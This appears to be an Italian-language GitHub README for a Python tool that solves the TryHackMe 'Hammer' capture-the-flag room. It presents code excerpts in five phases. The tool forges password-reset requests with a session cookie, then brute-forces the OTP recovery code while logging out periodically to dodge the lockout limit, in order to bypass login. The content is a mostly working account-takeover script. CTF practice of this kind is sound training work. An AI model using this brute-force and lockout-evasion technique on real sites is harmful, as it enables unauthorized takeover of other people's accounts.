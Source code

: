 ![pyOtpSimbolo](https://github.com/user-attachments/assets/3dc21905-1c08-4314-9160-a8513d93db72)
CTF HAMMER ON THM
Tool python creato per bypassare il login alla dashboard.

FASE 1:
    • Caricamento e convalida codici otp da file .txt
        ◦ otp.otp_from_txt(otp_txt)
            ▪ def is_otp(otp_code, len_code_ok):
                  n_char_code = len(otp_code)
                  if(n_char_code < len_code_ok or n_char_code > len_code_ok):
                      return False
                  else:
                      return True	


FASE 2:
    • Forgiatura richiesta pw reset 
        ◦ http_req_pwRst = forge.reset_pw_req(url_rst_pw)
            ▪ def reset_pw_req(url, email = None, session_id=None):
              …………………………….
              else:
                      headers = {
                          "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                          "Accept-Language": "en-US,en;q=0.5",
                          "Accept-Encoding": "gzip, deflate, br",
                          "Connection": "keep-alive",
                      }
                  return {"url":url, "headers": headers}

    • Richiesta per pw reset, e recupero session_id 
        ◦ cookie = otp_req.do_request(http_req_pwRst)
            ▪ def do_request(http_req_pwRst, flag=None):
                  if(not flag):
                      response = requests.get(url=http_req_pwRst['url'], headers=http_req_pwRst['headers'])
              ……………………………………….
              return response.cookies.get_dict()['PHPSESSID']


FASE 3:
    • Forgiatura richiesta per pw reset, con email valida e cookie
        ◦ http_req_pwRst = forge.reset_pw_req(url_rst_pw, email_user, cookie)
            ▪ def reset_pw_req(url, email = None, session_id=None):
                  if(session_id):
                      headers = {
                          "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                          "Accept-Language": "en-US,en;q=0.5",
                          "Accept-Encoding": "gzip, deflate, br",
                          "Connection": "keep-alive",
                          "Cookie": f"PHPSESSID={session_id}"
                      }
              data = {"email":email}
              return {"url":url, "headers": headers, "data":data}
              ………………………………..

    • Richiesta per pw reset, con email valida e cookie settato
        ◦ otp_req.do_request(http_req_pwRst, flag = "pw")
              elif(flag == "pw"):
                      #print("SEND PW RST")
                      response = requests.post(url=http_req_pwRst['url'], data=http_req_pwRst['data'], headers=http_req_pwRst['headers'])


FASE 4:
    • Forgiatura richiesta BruteForce, con url di inserimento otp, cookie e code
        ◦ code = otp_codes.pop(0)
        ◦ http_req_OTP = forge.otp_brute_req(url_otp, cookie, code)
            ▪ def otp_brute_req(url, session_id, otp_code):
                  headers = {
                      "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                      "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                      "Accept-Language": "en-US,en;q=0.5",
                      "Accept-Encoding": "gzip, deflate, br",
                      "Connection": "keep-alive",
                      "Cookie": f"PHPSESSID={session_id}"
                  }
                  data = {"recovery_code": otp_code, "s":140}
                  return {"url":url, "headers": headers, "data":data}

    • Richiesta convalida otp, stringa di errore otp, otp e cookie settato
        ◦ Eseguita n volte, n < n_request lock out.
        ◦ otp_req.bruteOTP(http_req_OTP, error, cookie)
          def bruteOTP(http_req_otp, error, cookie):
                  response = requests.post(url=http_req_otp['url'], data=http_req_otp['data'], headers=http_req_otp['headers'])
                  if( not error in response.text):
                      exit(f"\nOTP TROVATO: {http_req_otp['data']} \n Cookie: {cookie}")


FASE 5:
    • Forgiatura richiesta logout, con url di logout e cookie settato
        ◦ logout_req = forge.logout_req(logout_path, cookie)
              def logout_req(url, session_id):
                  headers = {
                      "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                      "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                      "Accept-Language": "en-US,en;q=0.5",
                      "Accept-Encoding": "gzip, deflate, br",
                      "Connection": "keep-alive",
                      "Cookie": f"PHPSESSID={session_id}"
                  }
                  return {"url": url, "headers": headers}

    • Richiesta di logout
        ◦ logout_req = forge.logout_req(logout_path, cookie)
              otp_req.logout(logout_req)
                          n_requests = 0
                          print(f"RIMANGONO {len(otp_codes)} OTP DA TESTARE")

